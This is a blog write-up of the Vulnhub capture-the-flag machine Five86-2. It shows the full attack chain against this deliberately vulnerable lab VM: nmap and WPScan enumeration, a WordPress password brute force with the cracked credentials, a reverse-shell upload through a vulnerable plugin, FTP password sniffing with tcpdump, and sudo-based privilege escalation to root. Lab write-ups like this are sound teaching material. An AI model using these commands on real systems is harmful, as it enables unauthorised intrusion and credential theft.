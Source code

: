 ```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
navigation: True
title: "Five86 CTF"
tags: CTF
subclass: 'post'
logo: 'assets/images/0x47.png'
author: "0x47"
twitter: "0x47"
categories: "CTF"
---
```


<p>Five86-2 is a CTF challenge found on <a href="https://www.vulnhub.com/entry/five86-2,418/">Vulnhub</a>.</p>

<h2>Enumeration</h2>
Did a full nmap scan to see if there are any more open ports than those highlighted above.
{% highlight sh %}
% nmap -A -p- -T4 192.168.1.185
Starting Nmap 7.70 ( https://nmap.org ) at 2020-02-26 18:07 GMTß
Nmap scan report for 172.16.6.104
Host is up (0.0047s latency).
Not shown: 65532 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Five86-2 &#8211; Just another WordPress site
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.55 seconds
{% endhighlight %}

Interesting things... out of date WordPress and ProFTPD. Let's begin....

<h2>Reconnaissance</h2>

<p>Initial browsing to the WordPress instance, shows default WP setup. Looks like base url is http://five86-2/, so added a host entry to make it render properly.</p>

WPScan reveals no plugins, but does give us a few users.
{% highlight sh %}
% wpscan -u http://five86-2/ --enumerate
...
[+] Enumerating usernames ...
[+] We identified the following 5 users:
    +----+---------+-----------------+
    | ID | Login   | Name            |
    +----+---------+-----------------+
    | 1  | admin   | admin           |
    | 2  | barney  | Barney Sumner   |
    | 4  | gillian | Gillian Gilbert |
    | 5  | peter   | Peter Hook      |
    | 6  | stephen | Stephen Morris  |
    +----+---------+-----------------+
...  
{% endhighlight %}

No anonymnous login to ProFTPD instance. A quick scan with dirb reveals a few listable wp directories, but they show nothing exciting.

Let's try brute forcing some of these users.

{% highlight sh %}
 % wpscan --url http://five86-2/ -U ~/Desktop/user.txt -P /Volumes/GDISK20191202/wordlists/SecLists/Passwords/darkweb2017-top10000.txt
 ....
 [+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - barney / spooky1
[SUCCESS] - stephen / apollo1
Trying peter / steven123 Time: 00:07:01 <===================================================================================> (42634 / 42634) 100.00% Time: 00:07:01

[i] Valid Combinations Found:
 | Username: barney, Password: spooky1
 | Username: stephen, Password: apollo1
{% endhighlight %}

Logging in as Barney, I can see the plugins. Only non-default one is "Insert or Embed Articulate Content into Wordpress Trial". Sure enough a quick Internet search leads to <a href="https://www.exploit-db.com/exploits/46981">explot-db</a>.

Lazily grab a php reverse shell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">pentestmonkey</a>, create an index.html and zip it up. Upload it and voilla!

{% highlight sh %}
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
{% endhighlight %}


Let's take a look around. Searching /home, we find barney, george, gillian, john, paul, peter, richard and stephen all of which seem to have secure home directories.

Downloading and running <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> we find a couple of interesting things:

{% highlight sh%}
....
paul      1716  0.0  0.0   2600   728 ?        Ss   10:14   0:00 /bin/sh -c /home/paul/ftp_upload.sh > /dev/null 2>&1
paul      1717  0.0  0.0   2600   796 ?        S    10:14   0:00 /bin/sh /home/paul/ftp_upload.sh
paul      1718  0.0  0.2   3224  2188 ?        S    10:14   0:00 ftp -n 172.18.0.10
1000      1719  0.0  0.8 133072  8416 ?        S+   10:14   0:00 proftpd: paul - 172.18.0.1: STOR file.txt
....
-e [+] Possibly interesting SUID files:
-rwsr-x--- 1 peter ncgroup 30856 Apr 13  2017 /usr/bin/nc.traditional
{% endhighlight %}

We're unable to run either of those things. After hunting around for a bit longer I tried the wp passwords...

{% highlight sh %}
$ /usr/bin/nc.traditional -l 8888
/bin/sh: 18: /usr/bin/nc.traditional: Permission denied
$ su barney
Password: spooky1
su: Authentication failure
$ su stephen
Password: apollo1
id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
{% endhighlight %}

Silly boy Stephen!

{% highlight sh %}
stephen@five86-2:~$ groups
groups
stephen pcap
{% endhighlight %}

Hmmm... stephen is in the pcap group. Guess we need to see if we can find the ftp password then, using tcpdump.

{% highlight sh %}
stephen@five86-2:~$ tcpdump -nn -s0 -v port 21
tcpdump -nn -s0 -v port 21
tcpdump: listening on br-eca3858d86bf, link-type EN10MB (Ethernet), capture size 262144 bytes
10:32:01.077980 IP (tos 0x0, ttl 64, id 9758, offset 0, flags [DF], proto TCP (6), length 60)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [S], cksum 0x585e (incorrect -> 0xa468), seq 3678066925, win 64240, options [mss 1460,sackOK,TS val 3139786905 ecr 0,nop,wscale 7], length 0
10:32:01.078009 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [S.], cksum 0x585e (incorrect -> 0x7409), seq 3034452652, ack 3678066926, win 65160, options [mss 1460,sackOK,TS val 566641509 ecr 3139786905,nop,wscale 7], length 0
10:32:01.078024 IP (tos 0x0, ttl 64, id 9759, offset 0, flags [DF], proto TCP (6), length 52)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9f68), ack 1, win 502, options [nop,nop,TS val 3139786905 ecr 566641509], length 0
10:32:01.087747 IP (tos 0x0, ttl 64, id 51783, offset 0, flags [DF], proto TCP (6), length 109)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x588f (incorrect -> 0xafcb), seq 1:58, ack 1, win 510, options [nop,nop,TS val 566641518 ecr 3139786905], length 57: FTP, length: 57
	220 ProFTPD 1.3.5e Server (Debian) [::ffff:172.18.0.10]
10:32:01.087769 IP (tos 0x10, ttl 64, id 9760, offset 0, flags [DF], proto TCP (6), length 52)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9f1c), ack 58, win 502, options [nop,nop,TS val 3139786915 ecr 566641518], length 0
10:32:01.088350 IP (tos 0x10, ttl 64, id 9761, offset 0, flags [DF], proto TCP (6), length 63)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [P.], cksum 0x5861 (incorrect -> 0x0c71), seq 1:12, ack 58, win 502, options [nop,nop,TS val 3139786915 ecr 566641518], length 11: FTP, length: 11
	USER paul
10:32:01.088361 IP (tos 0x0, ttl 64, id 51784, offset 0, flags [DF], proto TCP (6), length 52)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [.], cksum 0x5856 (incorrect -> 0x9f08), ack 12, win 510, options [nop,nop,TS val 566641519 ecr 3139786915], length 0
10:32:01.088821 IP (tos 0x0, ttl 64, id 51785, offset 0, flags [DF], proto TCP (6), length 84)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x5876 (incorrect -> 0xefa8), seq 58:90, ack 12, win 510, options [nop,nop,TS val 566641520 ecr 3139786915], length 32: FTP, length: 32
	331 Password required for paul
10:32:01.089040 IP (tos 0x10, ttl 64, id 9762, offset 0, flags [DF], proto TCP (6), length 52)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9eee), ack 90, win 502, options [nop,nop,TS val 3139786916 ecr 566641520], length 0
10:32:01.089333 IP (tos 0x10, ttl 64, id 9763, offset 0, flags [DF], proto TCP (6), length 73)
    172.18.0.1.34938 > 172.18.0.10.21: Flags [P.], cksum 0x586b (incorrect -> 0xc147), seq 12:33, ack 90, win 502, options [nop,nop,TS val 3139786916 ecr 566641520], length 21: FTP, length: 21
	PASS esomepasswford
10:32:01.089427 IP (tos 0x0, ttl 64, id 51786, offset 0, flags [DF], proto TCP (6), length 52)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [.], cksum 0x5856 (incorrect -> 0x9ed1), ack 33, win 510, options [nop,nop,TS val 566641520 ecr 3139786916], length 0
10:32:01.097820 IP (tos 0x0, ttl 64, id 51787, offset 0, flags [DF], proto TCP (6), length 77)
    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x586f (incorrect -> 0xc1b6), seq 90:115, ack 33, win 510, options [nop,nop,TS val 566641529 ecr 3139786916], length 25: FTP, length: 25
{% endhighlight %}

Hokeydokey, we have a password!

{% highlight sh %}
$ su paul
Password: esomepasswford
id
uid=1006(paul) gid=1006(paul) groups=1006(paul),1010(ncgroup)
{% endhighlight %}

sudo -l tells us that paul can run /usr/sbin/service as peter, gawdammit this is a rabbit hole and a half.

{% highlight sh %}
paul@five86-2:~$ sudo -u peter /usr/sbin/service ../../bin/bash
sudo -u peter /usr/sbin/service ../../bin/bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
peter@five86-2:/$ id
id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
{% endhighlight %}

So lets see if peter can run anything useful...
{% highlight sh %}
peter@five86-2:/$ sudo -l
sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd
{% endhighlight %}

Errm yes. Glad I didn't have to go through all those users!

{% highlight sh %}
peter@five86-2:/$ sudo passwd root
sudo passwd root
New password: password

Retype new password: password

peter@five86-2:/$ su root -
su root -
Password: password

root@five86-2:/# cd /root
cd /root
root@five86-2:~# ls -la
ls -la
total 48
drwx------  5 root root 4096 Jan 13 11:21 .
drwxr-xr-x 20 root root 4096 Jan  8 22:57 ..
-rw-------  1 root root 1798 Jan 13 11:22 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9 08:54 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8 23:01 snap
drwx------  2 root root 4096 Jan  8 23:00 .ssh
-rwx------  1 root root  995 Jan  9 05:14 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13 11:19 .viminfo
root@five86-2:~# cat thisistheflag.txt
cat thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)


Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular
{% endhighlight %}

And we're done... Looking at the box a little further there was another way through. Paul is in the ncgroup, so could have run nctraditional to get a shell as peter rather than the /sbin/service escalation.

Thanks very much for the box <a href="http://www.five86.com/">@five86_x</a>.
